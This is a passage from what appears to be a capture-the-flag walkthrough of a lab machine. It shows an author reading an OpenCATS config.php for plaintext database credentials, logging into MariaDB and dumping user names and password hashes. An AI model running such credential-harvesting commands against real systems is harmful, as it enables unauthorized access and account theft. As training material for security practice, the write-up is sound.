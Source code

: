 ![Untitled]({{page.screenshots}}Untitled%2012.png)

Enumerated configuration file for DB credentials:

```bash
jennifer@admirertoo:/opt/opencats$ cat config.php | grep -i database
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
 * core team. If this setting is enabled, no writing to the database will
/* If enabled, the US zipcode database is installed and the user can filter
```

<aside>
🔑 cats     adm1r3r0fc4ts

</aside>

Enumerated DB data:

```bash
jennifer@admirertoo:/opt/opencats$ mysql -u cats -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 134652
Server version: 10.3.31-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> ...
MariaDB [cats_dev]> show tables;
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
| activity                             |
| activity_type                        |
...
| tag                                  |
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
55 rows in set (0.001 sec)

MariaDB [cats_dev]> select user_name,password from user;
+----------------+----------------------------------+
| user_name      | password                         |
+----------------+----------------------------------+
| admin          | dfa2a420a4e48de6fe481c90e295fe97 |
| cats@rootadmin | cantlogin                        |
| jennifer       | f59f297aa82171cc860d76c390ce7f3e |
+----------------+----------------------------------+
3 rows in set (0.000 sec)
```
